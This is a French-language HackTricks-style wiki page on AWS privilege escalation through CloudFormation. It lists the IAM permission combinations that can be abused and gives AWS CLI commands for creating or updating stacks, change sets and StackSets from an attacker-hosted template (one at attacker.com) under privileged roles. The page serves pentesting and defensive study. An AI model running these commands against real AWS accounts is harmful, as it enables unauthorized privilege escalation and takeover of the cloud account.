 # AWS - Cloudformation Privesc

{{#include ../../../../banners/hacktricks-training.md}}

## cloudformation

Pour plus d'informations sur cloudformation, consultez :

{{#ref}}
../../aws-services/aws-cloudformation-and-codestar-enum.md
{{#endref}}

### `iam:PassRole`, `cloudformation:CreateStack`

Un attaquant avec ces permissions **peut escalader les privilèges** en créant une **pile CloudFormation** avec un modèle personnalisé, hébergé sur son serveur, pour **exécuter des actions sous les permissions d'un rôle spécifié :**
```bash
aws cloudformation create-stack --stack-name <stack-name> \
--template-url http://attacker.com/attackers.template \
--role-arn <arn-role>
```
Dans la page suivante, vous avez un **exemple d'exploitation** avec la permission supplémentaire **`cloudformation:DescribeStacks`** :

{{#ref}}
iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md
{{#endref}}

**Impact potentiel :** Privesc au rôle de service cloudformation spécifié.

### `iam:PassRole`, (`cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`)

Dans ce cas, vous pouvez **abuser d'une stack cloudformation existante** pour la mettre à jour et escalader les privilèges comme dans le scénario précédent :
```bash
aws cloudformation update-stack \
--stack-name privesc \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::91029364722:role/CloudFormationAdmin2 \
--capabilities CAPABILITY_IAM \
--region eu-west-1
```
La permission `cloudformation:SetStackPolicy` peut être utilisée pour **vous donner la permission `UpdateStack`** sur une pile et effectuer l'attaque.

**Impact potentiel :** Privesc au rôle de service cloudformation spécifié.

### `cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`

Si vous avez cette permission mais **pas `iam:PassRole`**, vous pouvez toujours **mettre à jour les piles** utilisées et abuser des **rôles IAM déjà attachés**. Consultez la section précédente pour un exemple d'exploitation (il suffit de ne pas indiquer de rôle dans la mise à jour).

La permission `cloudformation:SetStackPolicy` peut être utilisée pour **vous donner la permission `UpdateStack`** sur une pile et effectuer l'attaque.

**Impact potentiel :** Privesc au rôle de service cloudformation déjà attaché.

### `iam:PassRole`,((`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

Un attaquant ayant les permissions de **passer un rôle et de créer & exécuter un ChangeSet** peut **créer/mettre à jour une nouvelle pile cloudformation et abuser des rôles de service cloudformation** tout comme avec CreateStack ou UpdateStack.

L'exploitation suivante est une **variation de la**[ **CreateStack one**](./#iam-passrole-cloudformation-createstack) utilisant les **permissions ChangeSet** pour créer une pile.
```bash
aws cloudformation create-change-set \
--stack-name privesc \
--change-set-name privesc \
--change-set-type CREATE \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::947247140022:role/CloudFormationAdmin \
--capabilities CAPABILITY_IAM \
--region eu-west-1

echo "Waiting 2 mins to change the stack"
sleep 120

aws cloudformation execute-change-set \
--change-set-name privesc \
--stack-name privesc \
--region eu-west-1

echo "Waiting 2 mins to execute the stack"
sleep 120

aws cloudformation describe-stacks \
--stack-name privesc \
--region eu-west-1
```
La permission `cloudformation:SetStackPolicy` peut être utilisée pour **vous donner des permissions `ChangeSet`** sur une pile et effectuer l'attaque.

**Impact potentiel :** Privesc vers les rôles de service cloudformation.

### (`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

C'est comme la méthode précédente sans passer **les rôles IAM**, donc vous pouvez simplement **abuser de ceux déjà attachés**, il suffit de modifier le paramètre :
```
--change-set-type UPDATE
```
**Impact potentiel :** Privesc au rôle de service cloudformation déjà attaché.

### `iam:PassRole`,(`cloudformation:CreateStackSet` | `cloudformation:UpdateStackSet`)

Un attaquant pourrait abuser de ces permissions pour créer/met à jour des StackSets afin d'abuser des rôles cloudformation arbitraires.

**Impact potentiel :** Privesc aux rôles de service cloudformation.

### `cloudformation:UpdateStackSet`

Un attaquant pourrait abuser de cette permission sans la permission passRole pour mettre à jour des StackSets afin d'abuser des rôles cloudformation attachés.

**Impact potentiel :** Privesc aux rôles cloudformation attachés.

## Références

- [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)

{{#include ../../../../banners/hacktricks-training.md}}
